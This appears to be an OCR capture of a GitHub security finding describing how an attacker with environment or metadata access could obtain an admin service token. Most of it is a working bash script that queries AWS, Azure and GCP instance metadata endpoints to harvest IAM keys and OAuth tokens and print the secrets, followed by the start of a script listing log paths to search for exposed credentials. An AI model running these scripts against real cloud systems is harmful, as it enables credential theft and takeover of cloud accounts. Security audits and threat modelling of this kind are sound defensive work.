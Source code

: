 #### Description
If attacker gains read access to environment variables (through server misconfiguration, container escape, or cloud metadata API), they obtain `ADMIN_SERVICE_TOKEN` which grants unlimited admin access without MFA.

#### Attack Steps

**Step 1: Enumerate Cloud Metadata Endpoints**
```bash
#!/bin/bash
# cloud_metadata_enum.sh - Extract credentials from cloud providers

echo "Testing AWS metadata endpoint..."
curl -s http://169.254.169.254/latest/meta-data/ && {
  echo "[+] AWS metadata accessible!"
  
  # Get IAM role name
  ROLE=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/)
  echo "IAM Role: $ROLE"
  
  # Get credentials
  curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE > aws_creds.json
  
  # Extract keys
  AWS_ACCESS_KEY=$(cat aws_creds.json | jq -r '.AccessKeyId')
  AWS_SECRET_KEY=$(cat aws_creds.json | jq -r '.SecretAccessKey')
  AWS_TOKEN=$(cat aws_creds.json | jq -r '.Token')
  
  echo "AWS_ACCESS_KEY_ID=$AWS_ACCESS_KEY"
  echo "AWS_SECRET_ACCESS_KEY=$AWS_SECRET_KEY"
}

echo "Testing Azure metadata endpoint..."
curl -s -H "Metadata:true" "http://169.254.169.254/metadata/instance?api-version=2021-02-01" && {
  echo "[+] Azure metadata accessible!"
  curl -s -H "Metadata:true" \
    "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" \
    > azure_token.json
}

echo "Testing GCP metadata endpoint..."
curl -s -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" && {
  echo "[+] GCP metadata accessible!"
  curl -s -H "Metadata-Flavor: Google" \
    "http://metadata.google.internal/computeMetadata/v1/instance/attributes/" \
    > gcp_attributes.txt
}
```

**Step 2: Extract Credentials from Application Logs**
```bash
#!/bin/bash
# log_credential_extraction.sh

# Search for exposed credentials in various log locations
LOG_PATTERNS=(
  "/var/log/app/*.log"
  "/var/log/nginx/access.log"
  "/var/log/nginx/error.log"
  "/home/*/logs/*.log"
  "~/.npm/_logs/*.log"
  "/tmp/*.log"
)
```